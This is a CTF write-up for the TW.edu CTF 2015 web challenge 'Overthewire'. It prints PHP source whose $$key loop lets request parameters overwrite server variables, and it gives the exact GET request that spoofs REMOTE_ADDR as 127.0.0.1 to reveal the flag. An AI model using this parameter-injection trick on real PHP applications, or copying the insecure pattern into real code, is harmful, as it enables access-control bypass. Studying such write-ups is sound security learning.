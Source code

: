 ```html
... # ignored

</code>lv1: 1<br>lv2: 1<br>lv3: 1<br>CTF{you_already_know_how_to_send_GET_and_POST_requests}
```

## TW.edu CTF 2015: Overthewire

---------------------------------------
**Category:** web **Points:** 100 **Solves:**  **Description:**

> http://overthewire.hackme.cc/

**overthewire.hackme.cc**
```html
Index of /
[ICO]   Name    Last modified   Size    Description
[ ] flag.php    2016-01-03 08:30    71
[ ] overthewire.php 2016-01-03 08:31    275
[TXT]   overthewire.txt 2016-01-03 08:31    275
Apache/2.4.7 (Ubuntu) Server at overthewire.hackme.cc Port 80
```

**overthewire.txt**
```php
 <?php
    include 'flag.php';

    // preparing
    foreach ($_REQUEST as $key => $value) {
        $$key = $value;
    }

    if ( $_SERVER['REMOTE_ADDR'] == '127.0.0.1' ){
        echo $flag;
    } else {
        echo 'there is no space like 127.0.0.1';
    }
```

### Solution
On the first sight of this problem, I thought we had to modify the http header to deceive the web server. However, `$_SERVER['REMOTE_ADDR']` is impossible to be '127.0.0.1' except that the request is from localhost. It can be faked at most as the proxy's IP.
So we need to find another way out. If we can create a http request with parameter `_SERVER[REMOTE_ADDR]=127.0.0.1`, in the `foreach` loop, `$$key = $value`, which will be parsed as `$(_SERVER[REMOTE_ADDR])=127.0.0.1`, we can overwrite the `$_SERVER[REMOTE_ADDR]` and get the flag.


**http_request.txt**
```
GET /overthewire.php?_SERVER[REMOTE_ADDR]=127.0.0.1 HTTP/1.1
Host: overthewire.hackme.cc

```
